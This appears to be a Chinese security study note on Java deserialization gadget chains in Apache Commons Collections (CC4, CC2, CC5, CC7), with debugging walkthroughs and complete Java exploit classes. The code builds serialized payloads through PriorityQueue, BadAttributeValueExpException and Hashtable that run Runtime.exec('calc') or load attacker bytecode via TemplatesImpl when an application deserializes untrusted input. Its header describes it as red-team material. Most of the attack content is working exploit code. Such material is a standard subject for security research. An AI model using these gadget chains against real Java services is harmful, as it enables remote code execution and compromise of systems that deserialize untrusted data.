# 06 · 反序列化链 · CC2/4/5/7/11 与 CB

> 查阅区 · **只查不读**，不进学习路径。原文拆自 `JAVA安全-全本`，正文一字未改，仅调标题层级与图片相对路径。
> 什么时候翻：红队 M3 素材；查某条链在哪个版本区间可用

## CC4

该链沿用CC3的类加载命令执行方式，也就是执行部分不变，入口部分改变。

- 之所以入口部分改变是因为该链使用Common Collections 4.0版本，而该版本的`TransformingComparator类`可以序列化，而在3.2.1版本中不行

  

- 通过该类的`compare()`可以调用`transform()`

  

- 接下来就是要找某类调用了`compare()`，最好是在反序列化入口方法中调用，最后找到的是`PriorityQueue类`

  

  - 跟进`heapify()`

    

  - 继续跟进

    

  - 最后找到方法的调用

    

- 前部分的逻辑基本理顺可以写成初步EXP，后部分直接照搬CC3的执行链

  ```java
          TemplatesImpl templates = new TemplatesImpl();
          Class templatesClass = templates.getClass();
  
          Field name = templatesClass.getDeclaredField("_name");
          name.setAccessible(true);
          name.set(templates, "name");
  
          Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
          bytecodes.setAccessible(true);
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
          byte[][] codes = {code};
          bytecodes.set(templates, codes);
          Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(TrAXFilter.class),
                  new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
          };
          ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  //		通过TransformingComparator.compare()调用ChainedTransformer.transform()
          TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
  //		通过PriorityQueue.readObject()作为反序列入口部分
          PriorityQueue<Object> priorityQueue = new PriorityQueue<>(transformingComparator);
  ```

- 好不出意外的报错了，还是调试，通过修改参数改变代码逻辑将链条引导向想要的方向，在`readObject()`下断点，发现在链条最初的`heapify()`就出问题了，这里用了一个`>>>`移位运算符

  

  - 这里传入的size为0，计算结果i为 0-1 = -1无法进入for循环

    

  - 当size为2时，计算结果i = 0，能进入循环

    

  - 看变量声明，size是`PriorityQueue`的队列长度，所以向队列添加2个内容即可

    

    ```java
            priorityQueue.add(1);
            priorityQueue.add(2);
    ```

- 运行还是报错，跟进`add()`

  

  

  

  

- 会发现在执行`add()`，会执行一次整体链，之所以报错是因为此处没有修改`_tfactory`变量值，但是此值在反序列化时会自动赋值，所以和之前的`HashMap.put()`的处理方式一致，先不写成完整的链，在序列化之前再将链补全即可，所以最终代码如下

  ```java
          TemplatesImpl templates = new TemplatesImpl();
          Class templatesClass = templates.getClass();
  
          Field name = templatesClass.getDeclaredField("_name");
          name.setAccessible(true);
          name.set(templates, "name");
  
          Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
          bytecodes.setAccessible(true);
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
          byte[][] codes = {code};
          bytecodes.set(templates, codes);
          Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(TrAXFilter.class),
                  new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
          };
          ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  //		通过TransformingComparator.compare()调用ChainedTransformer.transform()
          TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));
  //		通过PriorityQueue.readObject()作为反序列入口部分
          PriorityQueue<Object> priorityQueue = new PriorityQueue<>(transformingComparator);
          priorityQueue.add(1);
          priorityQueue.add(2);
  
  		Class<? extends TransformingComparator> transformingComparatorClass = transformingComparator.getClass();
  
          Field transformingComparatorClassDeclaredField = transformingComparatorClass.getDeclaredField("transformer");
          transformingComparatorClassDeclaredField.setAccessible(true);
          transformingComparatorClassDeclaredField.set(transformingComparator, chainedTransformer);
  
          serialize(priorityQueue);
          deserialize("ser4.bin");
  ```

- 当然也可以直接通过反射修改size的值，而不用`add()`添加队列值，便可以直接执行，代码如下

  ```java
  package CC4;
  
  import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
  import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
  import org.apache.commons.collections4.Transformer;
  import org.apache.commons.collections4.comparators.TransformingComparator;
  import org.apache.commons.collections4.functors.ChainedTransformer;
  import org.apache.commons.collections4.functors.ConstantTransformer;
  import org.apache.commons.collections4.functors.InstantiateTransformer;
  
  import javax.xml.transform.Templates;
  import java.io.*;
  import java.lang.reflect.Field;
  import java.nio.file.Files;
  import java.nio.file.Paths;
  import java.util.PriorityQueue;
  
  public class CC4Test {
      public static void main(String[] args) throws Exception {
  
          TemplatesImpl templates = new TemplatesImpl();
          Class templatesClass = templates.getClass();
  
          Field name = templatesClass.getDeclaredField("_name");
          name.setAccessible(true);
          name.set(templates, "name");
  
          Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
          bytecodes.setAccessible(true);
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
          byte[][] codes = {code};
          bytecodes.set(templates, codes);
  
          Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(TrAXFilter.class),
                  new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
          };
          ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  
          TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
  
          PriorityQueue<Object> priorityQueue = new PriorityQueue<>(transformingComparator);
  
          Class<? extends PriorityQueue> priorityQueueClass = PriorityQueue.class;
          Field sizeField = priorityQueueClass.getDeclaredField("size");
          sizeField.setAccessible(true);
          sizeField.set(priorityQueue, 2);
  
          serialize(priorityQueue);
          deserialize("ser4.bin");
  
      }
  
      private static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser4.bin"));
          oos.writeObject(obj);
      }
  
      private static Object deserialize(String Filename) throws IOException, ClassNotFoundException {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
      }
  }
  
  ```

- Gadget

  ```java
  PriorityQueue.readObject()
      TransformingComparator.compare()
      	ChainedTransformer.transform()
      		ConstantTransformer.transform()
      			InstantiateTransformer.transform()
      			TemplatesImpl.newTransformer()
  ```

## CC2

CC2利用链是在CC4的基础上抛弃了`Transformer[]`数组的使用，因为shiro漏洞重写了动态加载数组的方法，导致EXP无法通过数组实现，另外用`InvokerTransformer`连接前后部分而不再用`InstantiateTransformer`类初始化了。

- 大部分内容都一样，这里首先要修改一下`InvokerTransformer`，直接调用`newTransformer`，然后该方法无参，传入null即可

  ```java
  InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
  ```

- 然后是要将templates传入链条进行初始化，这里直接传入队列中代入后面执行

  ```java
  priorityQueue.add(templates);
  priorityQueue.add(2);
  ```

  - 这里之所以要第一个传入队列是因为后面调用`transform()`时首先执行第一个参数值

    

    

- 所以最终代码就出来了

  ```java
  package CC2;
  
  import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
  import org.apache.commons.collections4.functors.ConstantTransformer;
  import org.apache.commons.collections4.functors.InvokerTransformer;
  import org.apache.commons.collections4.comparators.TransformingComparator;
  
  import java.io.*;
  import java.lang.reflect.Field;
  import java.nio.file.Files;
  import java.nio.file.Paths;
  import java.util.PriorityQueue;
  
  public class CC2Test {
      public static void main(String[] args) throws Exception{
          TemplatesImpl templates = new TemplatesImpl();
          Class templatesClass = templates.getClass();
  
          Field name = templatesClass.getDeclaredField("_name");
          name.setAccessible(true);
          name.set(templates, "name");
  
          Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
          bytecodes.setAccessible(true);
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
          byte[][] codes = {code};
          bytecodes.set(templates, codes);
  
  
          InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
          TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));
  
          PriorityQueue<Object> priorityQueue = new PriorityQueue<>(transformingComparator);
  
          priorityQueue.add(templates);
          priorityQueue.add(2);
  
          Class<? extends TransformingComparator> transformingComparatorClass = transformingComparator.getClass();
          Field transformerField = transformingComparatorClass.getDeclaredField("transformer");
          transformerField.setAccessible(true);
          transformerField.set(transformingComparator, invokerTransformer);
  
          serialize(priorityQueue);
          deserialize("ser2.bin");
  
  
      }
  
      public static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser2.bin"));
          oos.writeObject(obj);
      }
  
      public static Object deserialize(String Filename) throws IOException, ClassNotFoundException {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
      }
  }
  
  ```

- Gadget

  ```java
  PriorityQueue.readObject()
      heapify()->siftDown()->siftDownUsingComparator()
      TransformingComparator.compare()
      	InvokerTransformer.transform()
      		TemplatesImpl.newTransformer()
      			TemplatesImpl.newInstance()
  ```


## CC5

CC5与第一个CC1链很像，只不过更换了`Lazy.get()`的调用方法

- 但是调用`get()`的方法太多了，还是根据作者的链来写EXP，作者选择的是`TiedMapEntry.toString()`

​	

- 跟进`getValue()`，其中调用了`get()`，其中`map`是下一个链的节点

​	

- 可以先写一部分代码证实链的可行性

  ```java
  Transformer[] transformers = new Transformer[] {
      new ConstantTransformer(Runtime.class),
      new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
      new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
      new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          };
  ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  
  HashMap<Object, Object> map = new HashMap<>();
  Map lazymap = LazyMap.decorate(map, chainedTransformer);
  
  Class<? extends Map> lazymapClass = lazymap.getClass();
  Method getMethod = lazymapClass.getDeclaredMethod("get", Object.class);
  getMethod.invoke(lazymap, chainedTransformer);
  TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, "key");
  tiedMapEntry.toString();
  ```

- 然后是找到`toString()`的调用方法，最好在入口方法中，，作者选择的是`BadAttributeValueExpException.readObject()`

  

  - 看一下代码逻辑，valObject是通过val变量控制，通过反射修改此变量为下一个节点即可

    ```java
    //创建对象用于后面反射传入变量值
    BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
    Class<? extends BadAttributeValueExpException> badAttributeValueExpExceptionClass = badAttributeValueExpException.getClass();
    Field valField = badAttributeValueExpExceptionClass.getDeclaredField("val");
    valField.setAccessible(true);
    valField.set(badAttributeValueExpException, tiedMapEntry);
    ```

- 完整代码如下

  ```java
  package CC5;
  
  import org.apache.commons.collections.Transformer;
  import org.apache.commons.collections.functors.ChainedTransformer;
  import org.apache.commons.collections.functors.ConstantTransformer;
  import org.apache.commons.collections.functors.InvokerTransformer;
  import org.apache.commons.collections.keyvalue.TiedMapEntry;
  import org.apache.commons.collections.map.LazyMap;
  
  import javax.management.BadAttributeValueExpException;
  import java.io.*;
  import java.lang.reflect.Field;
  import java.util.HashMap;
  import java.util.Map;
  
  public class CC5 {
      public static void main(String[] args) throws Exception{
  
          Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                  new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                  new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          };
          ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  
          HashMap<Object, Object> map = new HashMap<>();
          Map lazymap = LazyMap.decorate(map, chainedTransformer);
  
          TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, "key");
  
          BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
          Class<? extends BadAttributeValueExpException> badAttributeValueExpExceptionClass = badAttributeValueExpException.getClass();
          Field valField = badAttributeValueExpExceptionClass.getDeclaredField("val");
          valField.setAccessible(true);
          valField.set(badAttributeValueExpException, tiedMapEntry);
  
          serialize(badAttributeValueExpException);
          deserialize("ser5.bin");
  
      }
      public static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser5.bin"));
          oos.writeObject(obj);
      }
  
      public static Object deserialize(String Filename) throws IOException, ClassNotFoundException {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
      }
  }
  
  ```

- Gadget

  ```java
  BadAttributeValueExpException.readObject()
  	TiedMapEntry.toString()
  	TiedMapEntry.getValue()
  		LazyMap.get()
  			ChainedTransformer.transform()
                      ConstantTransformer(Runtime.class)
                      InvokerTransformer.transform()
                          Class.getMethod
                          gerMethod.getRuntime()
                          Runtime.getRuntime().exec()
  ```

## CC7

CC7与CC5相同更改了入口类，但利用链没变，还是从`Lazy.get()`入手

- 通过`AbstractMap.equals()`调用`get()`，其中的m便是可控的类

  

- 然后入口是`Hashtable.readObject()`，跟进`reconstitutionPut()`

  

  - 该方法中调用了`equals()`

    

  - 之后跟链的时候发现先调用的是`AbstractMapDecorator.equals`，再到`AbstractMap.equals()`中，因为`AbstractMapDecorator`继承了map接口，但还要找到实现类也就是`AbstractMap`

- 逻辑基本理顺，编写初步EXP，因为`AbstractMap`类不能序列化所以直接从入口类入手

  ```java
  Transformer[] transformers = new Transformer[] {
      new ConstantTransformer(Runtime.class),
      new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
      new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
      new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
  };
  ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
  HashMap<Object, Object> map = new HashMap<>();
  Map lazymap = LazyMap.decorate(map, chainedTransformer);
  
  Hashtable<Object, Object> hashtable = new Hashtable<>();
  hashtable.put(lazymap, "value");
  
  serialize(hashtable);
  deserialize("ser7.bin");
  ```

  - 运行代码没有报错，但也没执行命令，在`readObject()`处打断点调试，发现没有进入for循环，因为tab[index]中的值为空，也就没有调用`equals()`

    

- 这里yso中的写法如下

  

  - 这里之所以要调用两次`Hashtable.put()`，是因为要在`readObject()`的for循环中调用两次`reconstitutionPut()`

    

  - 第一次调用该方法时没有调用`e.key.equals(key)`，因为tab[index]值为空，然后在下面被赋值

    

  - 然后第二次调用`reconstitutionPut()`时，成功进入for循环然后进行if判断，但是要调用想要的`equals()`，首先`&&`前的`e.hash == hash`要判断为真，此时e的值为`yy`，而Java中有一个hash碰撞bug：

    ```java
    "yy".hashCode() == "zZ".hashCode()
    ```

    

  - 所以如此赋值可以成功进入后面调用`AbstractMapDecorator.equal()`

    

  - 之所以后面又要删掉lazymap2里面的yy，是因为`HashTable.put()`中也会调用`equals()`，且还会增加一个yy键，所以在序列化时可以执行整体链但是在反序列化时则不行

